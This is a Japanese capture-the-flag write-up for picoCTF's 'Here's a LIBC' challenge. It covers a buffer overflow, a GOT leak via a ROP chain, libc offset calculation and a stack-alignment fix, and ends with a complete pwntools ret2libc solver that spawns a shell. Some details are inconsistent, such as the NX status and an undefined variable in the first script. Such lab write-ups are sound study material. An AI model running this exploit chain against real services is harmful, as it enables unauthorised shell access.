








<!-- omit in toc -->

## もくじ


## Here's a LIBC

親切にもバイナリとライブラリを提供してくれたと思ったらまた実行できないパターンでした。

``` bash
LD_PRELOAD=./libc.so.6 ./vuln 
Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion `sym != NULL' failed!
```

というわけでpwninit使ってリンカを取得し、無事に実行ができるようになりました。

実行してみると、エコーサーバーのようになっているようです。

適当に入力値を増やしてみたところセグフォが発生したので、BOFの脆弱性がありそうです。



Ghidraでデコンパイルしてみると、`main`関数から呼び出される以下の`do_stuff`関数がエコーサーバの処理になっていることがわかりました。

つまりここにBOFの脆弱性が存在しています。



pedaのコマンドで確認してみると、PIEは無効化されていることがわかります。

``` bash
$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

また、エコーサーバへの入力値が格納されるスタックのアドレスは`0x7fffffffdd40`であり、rbpは`0x7fffffffddc0`でした。

つまり、差分の128+8バイトの文字列を入力として与えれば、以降の入力値で関数の戻り値をインジェクションできそうです。

今回はNXが無効なようなので、ひとまずpedaでpltを探索してみました。

``` bash
$ plt
Breakpoint 2 at 0x400580 (__isoc99_scanf@plt)
Breakpoint 3 at 0x400570 (getegid@plt)
Breakpoint 4 at 0x400540 (puts@plt)
Breakpoint 5 at 0x400560 (setbuf@plt)
Breakpoint 6 at 0x400550 (setresgid@plt)
```

systemのpltは無いようなので、ret2libcを使ってlibcのアドレスをリークさせて直接ジャンプしたいと思います。

ここで、ROPgadgetを使ってみると、以下のガジェットが使えそうなことがわかりました。

``` bash
$ ROPgadget --binary vuln
0x0000000000400913 : pop rdi ; ret
```

これを利用して、とりあえず以下のような入力値を用意することでscanf関数のgotをリークさせることができます。

``` bash
$ python -c 'import sys; sys.stdout.buffer.write(b"A"*128 + b"B"*8 + b"\x13\x09\x40\x00\x00\x00\x00\x00" + b"\x38\x10\x60\x00\x00\x00\x00\x00" + b"\x69\x07\x40\x00\x00\x00\x00\x00" )' > input
```

このままでは使いづらいので、pwntoolを使って書き直してみました。

``` python
from pwn import *
import binascii
import time

elf = ELF("./vuln")
context.binary = elf

puts_plt = 0x400540
got_plt_scanf = 0x601038
rop_rdi_ret = 0x400913

# Local
p = process("./vuln")

# Remote
# p = remote("bof.pwn.wanictf.org", 9002)

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(rop_rdi_ret)
payload += p64(got_plt_puts)
payload += p64(puts_plt)

r = p.recvline()
p.sendline(payload)
r = p.recvline()

leakaddr = u64(p.recvline().rstrip().ljust(8, b"\x00"))
print(hex(leakaddr))
```

これでリークしたアドレスを利用してlibcのオフセットを特定しました。



これでsystemと`/bin/sh`のアドレスが特定できたのでシェルを取得できる！・・・と思ったものの、以下のスタック構造だと上手くエクスプロイトできませんでした。

``` bash
| rop_rdi_ret
| str_bin_sh
| system_addr
```

原因の調査のため、gdbで解析してみます。

エクスプロイトを行ったタイミングでは、以下のように想定通りのスタック構造が完成しているようでした。



system関数の引数として`/bin/sh`が受け渡されているところまでは終えたのですが、どこで問題が発生しているかいまいちわかりませんでした。

そこで、system関数のコードを読んでみることにしました。(バージョンはglibc-2.35)

system関数は`__libc_system`を呼び出し、受けとった文字列を`do_system`に渡すことでコマンドをシェル実行させているようです。

``` c
int __libc_system (const char *line)
{
  if (line == NULL)
    /* Check that we have a command processor available.  It might
       not be available after a chroot(), for example.  */
    return do_system ("exit 0") == 0;

  return do_system (line);
}
```

do_system関数は結構長いのですが以下のようなコートでした。(長いのでがっつり中略してます)

``` c
/* Execute LINE as a shell command, returning its status.  */
static int
do_system (const char *line)
{
  int status = -1;
  int ret;
  pid_t pid;
  struct sigaction sa;
******
  ret = __posix_spawn (&pid, SHELL_PATH, 0, &spawn_attr,
		       (char *const[]){ (char *) SHELL_NAME,
					(char *) "-c",
					(char *) line, NULL },
		       __environ);
  __posix_spawnattr_destroy (&spawn_attr);
******
  if (ret != 0)
    __set_errno (ret);

  return status;
}
```

新しい子プロセスを作成する`__posix_spawn`でシェルを起動し、-cオプションの引数としてsystem関数に与えた文字列を実行しているようです。

参考：[posix_spawn(3) - Linux manual page](https://man7.org/linux/man-pages/man3/posix_spawn.3.html)

さて、ここでもう一度gdbを見てみると、system関数を呼び出した後の以下の箇所でSIGSEGVが発生していることがわかりました。



`layout asm`コマンドでアセンブリを見てみると、`do_system`関数内の以下の箇所のようです。



ここで例外が発生している命令は`movaps`ですが、これは16バイト境界でアラインメントされたfloat型のデータを扱うmov命令で、データがアラインメントされていない場合に例外処理を発生させます。

つまり、以下の時点で`rsp+0x40`のスタックアドレスが16バイトでアラインメントされていない(=末尾が0ではない)状態であることがエラーの原因のようです。



ここで、rspのアドレスは`0x7ffe7859a228`にあるので、あと8バイト分調整すればアラインメントがうまくいきそうです。

というわけで、エクスプロイトに影響を与えない8バイト分のスタックとして、ret命令を追加します。

最終的なSolverはこちらになりました。

``` python
from pwn import *
import binascii
import time

elf = ELF("./vuln")
context.binary = elf

puts_plt = 0x400540
got_plt_scanf = 0x601038
rop_rdi_ret = 0x400913
ret = 0x40052e
main = 0x400771

# Local
p = process("./vuln")

# Remote
p = remote("mercury.picoctf.net", 42072)

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(rop_rdi_ret)
payload += p64(got_plt_scanf)
payload += p64(puts_plt)
payload += p64(main)

r = p.recvline()
p.sendline(payload)
r = p.recvline()

leakaddr = u64(p.recvline().rstrip().ljust(8, b"\x00"))
# print(hex(leakaddr))

base_addr = leakaddr - 0x07bf30
system_addr = base_addr + 0x04f4e0
str_bin_sh = base_addr +  0x1b40fa

payload = b""
payload += b"\x41"*128
payload += b"\x42"*8
payload += p64(ret)
payload += p64(rop_rdi_ret)
payload += p64(str_bin_sh)
payload += p64(system_addr)

r = p.recvline()
p.sendline(payload)
p.interactive()
```

実際、上記のSolverを実行するとスタックが16バイト境界でアラインメントされたことがわかります。



罠でしたね。。


